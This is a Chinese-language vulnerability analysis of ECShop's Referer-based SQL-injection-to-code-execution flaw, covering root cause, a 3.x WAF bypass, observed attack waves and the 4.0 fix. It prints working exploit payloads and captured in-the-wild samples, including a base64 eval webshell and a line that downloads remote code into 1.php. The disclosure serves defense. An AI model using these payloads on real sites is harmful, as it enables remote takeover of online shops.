背景
ECShop是一款B2C独立网店系统，适合企业及个人快速构建个性化网上商店。系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。2018年6月13日，知道创宇404积极防御团队通过知道创宇旗下云防御产品“创宇盾”防御拦截并捕获到一个针对某著名区块链交易所网站的攻击，通过分析，发现攻击者利用的正式ECShop 2.x版本的0day漏洞攻击。于2018年6月14日，提交到知道创宇Seebug漏洞平台并收录。
随后于2018年8月31日，ID为“ringk3y”研究人员在其博客公开这个漏洞，并做了详细分析，该分析收录在Seebug Paper。
知道创宇404积极防御团队于2018年9月2日正式对外发布《ECShop全系列版本的远程代码执行漏洞》预警。
从2018年的6月13日首次拦截后，知道创宇404实验室多个团队对这个利用ECShop 0day攻击事件进行持续的监控分析，从下文的分析结果可以看出一个0day漏洞在实际攻击中的各个阶段的“堕落”过程。
漏洞分析
该漏洞影响ECShop 2.x和3.x版本，是一个典型的“二次漏洞”，通过user.php文件中display()函数的模板变量可控，从而造成SQL注入漏洞，而后又通过SQL注入漏洞将恶意代码注入到危险函数eval中，从而实现了任意代码执行。
值得一提的是攻击者利用的payload只适用于ECShop 2.x版本导致有部分安全分析者认为该漏洞不影响ECShop 3.x，这个是因为在3.x的版本里有引入防注入攻击的安全代码，通过我们分析发现该防御代码完全可以绕过实现对ECShop 3.x的攻击（详见下文分析）。
注：以下代码分析基于ECShop 2.7.3
SQL 注入漏洞
首先看到ecshop/user.php
1 | elseif ($action == 'login') |
可以看到$back_act是从HTTP_REFERER获取到的，HTTP_REFERER是外部可控的，这也是万恶的根源。
接着将back_act变量传递给assign函数，跟进ecshop/includes/cls_template.php
1 | /** |
可以从注释了解这个函数的功能，是注册模板变量，也就是$back_act变成了$this->_var[$back_act]=$back_act，而后调用display函数
1 | function display($filename, $cache_id = '') |
从user.php调用display函数，传递进来的$filename是user_passport.dwt，从函数来看，首先会调用$this->fetch来处理user_passport.dwt模板文件，fetch函数中会调用$this->make_compiled来编译模板。user_passport.dwt其中一段如下：
1 | <td> </td> |
make_compiled会将模板中的变量解析，也就是在这个时候将上面assign中注册到的变量$back_act传递进去了，解析完变量之后返回到display函数中。此时$out是解析变量后的html内容，判断$this->_echash是否在$out中，若在，使用$this->_echash来分割内容，得到$k然后交给insert_mod处理。

由于_echash是默认的，不是随机生成的，所以$val内容可随意控制。跟进$this->insert_mod
1 | function insert_mod($name) // 处理动态内容 |
$val传递进来，先用|分割，得到$fun和$para，$para进行反序列操作，$fun和insert_拼接，最后动态调用$fun($para)，函数名部分可控，参数完全可控。接下来就是寻找以insert_开头的可利用的函数了，在ecshop/includes/lib_insert.php有一个insert_ads函数，正好满足要求。看下insert_ads
1 | /** |
$arr是可控的，并且会拼接到SQL语句中，这就造成了SQL注入漏洞。
根据上面的流程，可以构造出如下形式的payload
1 | echash+fun|serialize(array("num"=>sqlpayload,"id"=>1)) |
实际可利用payload
1 | Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;} |

代码执行
继续看insert_ads函数
1 | $position_style = ''; |
可以看到在SQL查询结束之后会调用模板类的fetch方法，在user.php中调用display，然后调用fetch的时候传入的参数是user_passport.dwt，而在此处传入的参数是$position_style，向上溯源，发现是$row['position_style']赋值而来，也就是SQL语句查询的结果，结果上面这个SQL注入漏洞，SQL查询的结果可控，也就是$position_style可控。
要到$position_style = $row['position_style'];还有一个条件，就是$row['position_id']要等于$arr['id']，查询结果可控，arr['id']同样可控。
之后$position_style会拼接'str:'传入fetch函数，跟进fetch
1 | /** |
因为之前拼接'str:'了，所以strncmp($filename,'str:', 4) == 0为真，然后会调用危险函数$this->_eval，这就是最终触发漏洞的点。但是参数在传递之前要经过fetch_str方法的处理，跟进
1 | /** |
第一个正则会匹配一些关键字，然后置空，主要看下最后一个正则
1 | return preg_replace("/{([^\}\{\n]*)}/e", "\$this->select('\\1');", $source); |
这个正则是将捕获到的值交于$this-select()函数处理。例如，$source的值是xxx{$abc}xxx，正则捕获到的group 1 就是$abc，然后就会调用$this-select("$abc")。

跟进select函数
1 | /** |
当传入的变量的第一个字符是$，会返回由 php 标签包含变量的字符串，最终返回到_eval()危险函数内，执行。在返回之前，还调用了$this->get_var处理，跟进get_var
1 | /** |
当传入的变量没有.$时，调用$this->make_var，跟进make_var
1 | /** |
在这里结合select函数里面的语句来看，<?php echo $this->_var[' $val '];?>，要成功执行代码的话，$val必须要把['闭合，所以payload构造，从下往上构造，$val为abc'];echo phpinfo();//；从select函数进入get_var的条件是第一个字符是$，所以payload变成了$abc'];echo phpinfo();//；而要进入到select，需要被捕获，payload变成了{$abc'];echo phpinfo();//}，这里因为payload的是phpinfo()，这里会被fetch_str函数的第一个正则匹配到，需要变换一下，所以payload变为{$abc'];echo phpinfo/**/();//}，到这里为止，php 恶意代码就构造完成了。
接下来就是把构造好的代码通过SQL注入漏洞传给$position_style。
这里可以用union select 来控制查询的结果，根据之前的流程，$row['position_id']和$arr['id']要相等，$row['position_id']是第二列的结果，$position_style是第九列的结果。$arr['id']传入' /*,$arr['num']传入*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -，0x27202f2a是' /*的16进制值，也就是$row['position_id']的值，0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d是上面构造的php代码的16进制值，也就是$position_style。

结合之前的SQL漏洞的payload构造，所以最终的payload的是1
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca

可以看到成功的执行了phpinfo()。
ECShop 3.x 绕过
上述的测试环境都是2.7.3的，理论上打2.x都没问题，而在3.x上是不行的，原因是3.x自带了个WAF(ecshop/includes/safety.php)，对所有传入的参数都做了检测，按照上面构造的 payload ，union select 会触发SQL注入的检测规则，有兴趣的可以去绕绕，我没绕过。。
下面的测试版本为ECshop3.0，3.x版本的echash是45ea207d7a2b68c49582d2d22adf953a。
上面说了 insert_ads 函数存在注入，并且有两个可控点，$arr['id']和$arr['num']，可以将union select通过两个参数传递进去，一个参数传递一个关键字，中间的可以使用/**/注释掉，这样就不会触发WAF。

实际攻击分析
上文提到该漏洞最早由知道创宇404积极防御团队通过知道创宇旗下云防御产品“创宇盾”在2018年6月13日拦截并捕获，随后针对这个漏洞的攻击情况做了详细的监控及跟进：
第一阶：0day在野之“APT攻击” (2018年6月13日)
首次捕获到 2.x 的 payload 是被用来攻击某区块链交易所网站。样本中 payload 通过HTTP 请求头的Referer字段植入，如下

把捕获的 payload 转码出来看
1 | Referer: http://www.noxxx.com/554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:2:"id";s:3:"'/*";s:3:"num";S:216:"*/UNION select 1,0x272f2a,3,4,5,6,7,8,0x7b2461275d3b617373657274286261736536345f6465636f64652827514556575155776f596d467a5a5459305832526c5932396b5a53676b58314250553152624a303576654364644b536b372729293b24615b27317d,10#";}554fcae493e564ee0dc75bdf2ebf94ca |
恶意代码
1 | {$a'];assert(base64_decode('QEVWQUwoYmFzZTY0X2RlY29kZSgkX1BPU1RbJ05veCddKSk7'));$a['1} |
base64部分的内容是
1 | @EVAL(base64_decode($_POST['Nox'])); |
可以看到，没有写入 webshell，而是直接接收$_POST['Nox']参数，进行base64解码后直接传入eval函数执行代码，相当于一个无文件的 webshell ，非常隐蔽。

本次攻击是由一个日本ip(35.200.*.*)发起,通过攻击的手法及使用的paylaod等情况来看，并直接了当地用来攻击某著名区块链交易所，我们高度怀疑是目的性非常明确的“APT攻击”。
第二阶：0day在野之“黑产攻击” （2018年8月）
在随后整个7月都没有出现利用该漏洞攻击的记录直到8月初，在整个8月拦截捕获该0day漏洞攻击记录10余次，攻击者使用的 payload 都相同，且都是一个菲律宾IP(180.191.*.*)发起的攻击。如下：
1 | 554fcae493e564ee0dc75bdf2ebf94caads|a:3:{s:3:"num";s:314:"/<SP>union<SP>select<SP>1,0x272f2a,3,4,5,6,7,8,0x7B247B24686F6D65275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4575634768774A79786D6157786C5832646C6446396A623235305A5735306379676E6148523063446F764C33566C5A5335745A53394E636B706A4A796B704F773D3D2729293B2F2F7D7D,10--<SP>-";s:2:"id";s:3:"'/";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca |
// file_put_contents('1.php',file_get_contents('http://uee.me/MrJc'));和这篇分析文章里捕获到的样本一致。
从整个8月拦截的10余次攻击目标，payload等手法来看，我们认为极有可能该0day漏洞已经被流入到“高端黑产”团队，并进行了批量自动化攻击。
第三阶：0day曝光之“疯狂攻击” （2018年8月31日后）
在2018年8月31日漏洞细节被公开之后，攻击数量开始增加，捕获到的 payload 也变的多种多样，漏洞被广泛利用。

从这些人使用的攻击目标、手法及payload（攻击使用的payload仍然只适用于2.x版本，目前为止没有看到使用针对3.x payload攻击）等情况来看，考虑大量的“低端黑产”玩家开始加入进来，继续“疯狂”的抓鸡行动，榨干这个漏洞的最后一滴“油水”…
漏洞影响范围及修复
根据知道创宇ZoomEye网络空间搜索引擎对ECShop关键字的搜索结果，共找到42400 条历史记录。

漏洞修复
目前我们分析下载最新版的ECShop 4.0里对这个漏洞进行修复：
看到ecshop4/ecshop/includes/lib_insert.php

可以看到，将传递进来的$arr[id]和$arr[num]强制转换成整型，这样就没法利用这个漏洞了。
另外我们注意到官方并没有发布针对老版本的(2.x和3.x)的独立修复补丁，相关老版本的用户可参考ECShop 4.0代码来修复或者直接升级到ECShop 4.0。
小结
本次ECShop这个漏洞挖掘到漏洞利用非常有技术含量，可以算是一个经典的“二次漏洞”案例，从一个SQL注入漏洞最后完美实现转变为代码执行漏洞。另外从这个漏洞在野外实际利用的过程，也非常的“经典”，完美重现了一个0day漏洞被挖掘利用转变为“武器”后的完美历程：从被用来目标明确的“定向攻击”，再到“黑产”高端玩家，直到最后在曝光后沦为黑产“抓鸡”工具的“堕落” …
感谢我们404实验室各团队小伙伴的努力～～ 我爱你们～～